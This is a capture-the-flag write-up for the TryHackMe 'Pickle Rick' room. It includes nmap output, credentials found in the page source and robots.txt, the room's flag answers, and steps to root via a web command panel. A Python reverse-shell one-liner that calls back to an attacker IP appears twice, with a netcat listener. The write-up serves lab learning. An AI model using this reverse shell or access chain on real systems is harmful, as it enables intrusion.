 l# Pickle Rick

December 22, 2023 

----------------------------

```
Username: R1ckRul3s

view-source:http://10.10.98.98/ 
```

```
Wubbalubbadubdub

http://10.10.98.98/robots.txt
```

```
nmap -sC -sV -oN nmap-initial 10.10.98.98
Starting Nmap 7.93 ( https://nmap.org ) at 2023-12-22 23:33 PST
Nmap scan report for 10.10.98.98
Host is up (0.29s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.6 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 c92a0c28fddb026c9e1c0fe4ca784513 (RSA)
|   256 cbdd3d436888dc42ecf4754f1e11dc7e (ECDSA)
|_  256 5b991475177e89d94a3fa2025021f980 (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Rick is sup4r cool
|_http-server-header: Apache/2.4.18 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 62.09 seconds
```

```
python3 -c 'import socket,os,pty;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.9.135.209",7777));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn("/bin/sh")'
```	

------------------------------

- What is the first ingredient that Rick needs?
	- `mr. meeseek hair`

- What is the second ingredient in Rick’s potion?
	- `1 jerry tear`

- What is the last and final ingredient?
	- `fleeb juice`


<details>
Steps:
If you visit the source page of the website / 

![image](https://github.com/kyou00/tryhackme-writeups/assets/92074685/091d7e9e-cd17-4085-a900-afbb4a35ba87)

you will see a username that we can use later on

as we use the gobuster we can see there is a asset page in the website

![image](https://github.com/kyou00/tryhackme-writeups/assets/92074685/f8051952-8613-4c36-9349-b664d1242052)

then we can see bunch of files in the assets page but there is a png that stands the most which is the portal

![image](https://github.com/kyou00/tryhackme-writeups/assets/92074685/2ee3f180-59da-4112-ad59-7cf433474138)

as i think for a second that this image was being used somewhere in the website just different directory

well after few navigations to the website i used the portal keyword and add a .php extension to it

![image](https://github.com/kyou00/tryhackme-writeups/assets/92074685/0a220447-e3fb-4b0d-87f9-53221ec6399c)

we know the username but we do not know the password 

so after i navigate to /robots.txt in the website i can see some words in there

![image](https://github.com/kyou00/tryhackme-writeups/assets/92074685/5e26c7c3-2b3f-4e5b-957f-316947ef3215)

So i tried using the username R1ckRul3s and Wubbalubbadubdub as password in the /portal.php

and it is a success

![image](https://github.com/kyou00/tryhackme-writeups/assets/92074685/03be194c-447c-48b3-b222-ba5e2eec6fe2)

first we can check for a few commands that we can use in the command panel

![image](https://github.com/kyou00/tryhackme-writeups/assets/92074685/a51b70eb-5eb9-49e6-9b49-e9c14b91af32)

then we can check for python 3 

![image](https://github.com/kyou00/tryhackme-writeups/assets/92074685/fb9030f0-29d0-4ab8-93ec-9367243ecf7e)

as we have python 3 in the command line we can use this to have a reverse shell to the server

```
python3 -c 'import socket,os,pty;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.9.135.209",7777));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn("/bin/sh")'
```

then we need to listen in our attacker machine

```
nc -lnvp 7777
```

![image](https://github.com/kyou00/tryhackme-writeups/assets/92074685/cb6672db-ce8a-4624-8020-6a0c89dcceac)

we can use sudo -l to see some privilege

```
sudo -l
```

then sudo su if we can 

![image](https://github.com/kyou00/tryhackme-writeups/assets/92074685/651e1a7b-a99b-45a1-9c6f-941284eccb9e)

now we own the box 
</details>
